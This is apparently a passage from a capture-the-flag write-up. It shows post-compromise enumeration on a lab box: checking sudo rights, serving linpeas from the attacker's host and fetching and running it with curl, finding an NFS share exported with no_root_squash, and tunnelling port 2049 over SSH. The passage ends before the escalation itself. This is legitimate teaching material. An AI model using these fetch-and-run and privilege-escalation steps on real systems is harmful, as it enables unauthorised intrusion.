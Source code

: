 ## NFS Service

I ran `sudo -l` to check my permissions and I have none:
~~~
[paradox@localhost ~]$ sudo -l
[sudo] password for paradox: 
Sorry, user paradox may not run sudo on localhost.
~~~

Let's upload [`linpeas`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to find the useful files for privesc. Use a python server and `curl` on the target machine since `wget` binary doesn't exist and then set its permission to be executable and then run it:

Your machine:
~~~
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Target machine:
~~~
[paradox@localhost ~]$ curl http://<YOUR IP>/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  465k  100  465k    0     0   220k      0  0:00:02  0:00:02 --:--:--  220k
[paradox@localhost ~]$ chmod +x linpeas.sh
[paradox@localhost ~]$ ./linpeas.sh
~~~

The result reveals something interesting:
~~~
╔══════════╣ NFS exports?
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
~~~

There is an NFS share (/home/james), with the `no_root_squash` option set. We will use this later for privesc but for now we'll use the NFS share. We can confirm that the NFS share is on port 2049:

~~~
[paradox@localhost ~]$ rpcinfo -p | grep nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
~~~

We can't just mount the share because it is only accessible to localhost. We can solve this using the following command:

~~~
$ ssh -fN -L "2049:$IP:2049" -i mykey paradox@$IP                                                      
Enter passphrase for key 'mykey':
~~~

We can confirm our access using Nmap:
~~~
$ nmap localhost -p2049
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-20 06:14 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000079s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE
2049/tcp open  nfs
~~~
